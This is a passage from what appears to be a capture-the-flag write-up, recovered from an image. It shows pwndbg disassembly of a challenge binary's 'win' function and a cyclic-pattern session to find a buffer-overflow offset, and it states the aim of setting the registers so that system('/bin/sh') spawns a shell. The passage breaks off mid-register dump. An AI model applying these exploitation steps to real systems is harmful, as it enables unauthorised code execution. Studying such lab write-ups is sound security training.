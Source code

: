 ```
pwndbg> disassemble win
Dump of assembler code for function win:
   0x000000000040129c <+0>:     endbr64
   0x00000000004012a0 <+4>:     push   rbp
   0x00000000004012a1 <+5>:     mov    rbp,rsp
   0x00000000004012a4 <+8>:     sub    rsp,0x10
   0x00000000004012a8 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x00000000004012ab <+15>:    mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004012af <+19>:    cmp    DWORD PTR [rbp-0x4],0x539
   0x00000000004012b6 <+26>:    je     0x4012d6 <win+58>
   0x00000000004012b8 <+28>:    lea    rax,[rip+0xd4e]        # 0x40200d
   0x00000000004012bf <+35>:    mov    rdi,rax
   0x00000000004012c2 <+38>:    mov    eax,0x0
   0x00000000004012c7 <+43>:    call   0x4010d0 <printf@plt>
   0x00000000004012cc <+48>:    mov    edi,0x0
   0x00000000004012d1 <+53>:    call   0x401120 <exit@plt>
   0x00000000004012d6 <+58>:    mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004012da <+62>:    mov    rdi,rax
   0x00000000004012dd <+65>:    call   0x4010c0 <system@plt>
   0x00000000004012e2 <+70>:    nop
   0x00000000004012e3 <+71>:    leave
   0x00000000004012e4 <+72>:    ret
```

Therefore, our goal is to use the buffer overflow to set the first parameter (`rdi`) to 0x539, and the second parameter (`rsi`) to "/bin/sh" to spawn a shell.

Find the offset for the buffer overflow:
```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040134b <+0>:     endbr64
   0x000000000040134f <+4>:     push   rbp
   0x0000000000401350 <+5>:     mov    rbp,rsp
   0x0000000000401353 <+8>:     sub    rsp,0x10
   0x0000000000401357 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x000000000040135a <+15>:    mov    QWORD PTR [rbp-0x10],rsi
   0x000000000040135e <+19>:    mov    eax,0x0
   0x0000000000401363 <+24>:    call   0x401237 <initialize>
   0x0000000000401368 <+29>:    mov    eax,0x0
   0x000000000040136d <+34>:    call   0x4012e5 <vuln>
   0x0000000000401372 <+39>:    mov    eax,0x0
   0x0000000000401377 <+44>:    leave
   0x0000000000401378 <+45>:    ret
End of assembler dump.
pwndbg> b *main+45
Breakpoint 1 at 0x401378
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> r
Starting program: /home/benkyou/Dev/bbctf/there_sir/chall 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
Enter something: AAA
Enter message: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
...[SNIP]...
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────
 RAX  0x65
 RBX  0x7fffffffd948 —▸ 0x7fffffffdd88 ◂— '/home/benkyou/Dev/bbctf/there_sir/chall'
 RCX  0x7ffff7e99811 (read+17) ◂— cmp rax, -0x1000 /* 'H=' */
```